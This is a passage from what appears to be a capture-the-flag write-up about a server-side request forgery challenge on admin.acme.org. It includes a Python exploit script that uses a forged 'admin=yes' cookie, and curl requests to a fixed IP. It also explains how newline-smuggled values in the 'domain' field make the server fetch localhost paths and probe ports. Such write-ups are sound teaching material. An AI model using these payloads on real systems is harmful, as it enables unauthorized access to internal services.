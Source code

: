 {% highlight python %}
#!/usr/bin/env python
import requests
import base64

URL = 'http://admin.acme.org'

TARGET = '212.zeta-two.com'

r = requests.post(URL + '/index.php', headers={'Content-Type': 'application/json'}, json={'domain': TARGET}, cookies={'admin':'yes'})
print(r.headers)
print(r.text)
path2 = r.json()['next']
print('Next: %s' % path2)
read_id = int(path2.split('id=')[-1])
print('Next ID: %d' % read_id)

r = requests.get(URL + '/read.php?id=%d' % read_id + '', cookies={'admin':'yes'})
print(r.headers)
result_text = base64.b64decode(r.json()['data'])
print('Res: "%s"' % result_text)
{% endhighlight %}

To expand on my previous knowledge on this, I used [Orange's materials on SSRF](https://www.blackhat.com/docs/us-17/thursday/us-17-Tsai-A-New-Era-Of-SSRF-Exploiting-URL-Parser-In-Trending-Programming-Languages.pdf) as a source of inspiration.
After a while a noticed that there was something strange going on when I used newlines in the domain. Specifically I finally noticed that when using newlines, the id returned from the first request increased by more than 1.
It looked something like this

> curl -X POST 'http://104.236.20.43/' -H 'Host: admin.acme.org' -H 'Content-Type: application/json' -b admin=yes --data '{"domain":"212.zeta-two.com"}' 

```
{"next":"\/read.php?id=9"}
```
  
  
> curl -X POST 'http://104.236.20.43/' -H 'Host: admin.acme.org' -H 'Content-Type: application/json' -b admin=yes --data '{"domain":"212.zeta-two.com"}'

```
{"next":"\/read.php?id=10"}
```
  
> curl -X POST 'http://104.236.20.43/' -H 'Host: admin.acme.org' -H 'Content-Type: application/json' -b admin=yes --data '{"domain":"212\n212.zeta-two.com"}'

```
{"next":"\/read.php?id=12"}
```

Notice that in the last request, the ID grows by 2, not 1. I tried submitting the a domain with the value `212\nlocalhost\n212.zeta-two.com` and then visiting, not the ID I got back but one less than it.
This gave me the Apache2 default page again. Apparently, the API first validates the domain, then splits it on newlines and creates one item per line.
I checked if I could add a path to it as well using `212\nlocalhost/flag\n212.zeta-two.com` which gave me "You really thought it would be that easy? Keep digging!" as a result.
Ok so it seems we have a reliable SSRF, what about URL queries? Unfortunataly, if the "domain" contained any of the following characters: "#%?&\" the API would error out and tell me they aren't allowed.
However, since ":" isn't blacklisted, it's possible to try other ports. A typical scenario is to have an application server accessible only locally running on another port.
So I tried `212\nlocalhost:PORT/flag\n212.zeta-two.com` substituting "PORT" for a number of common ports.
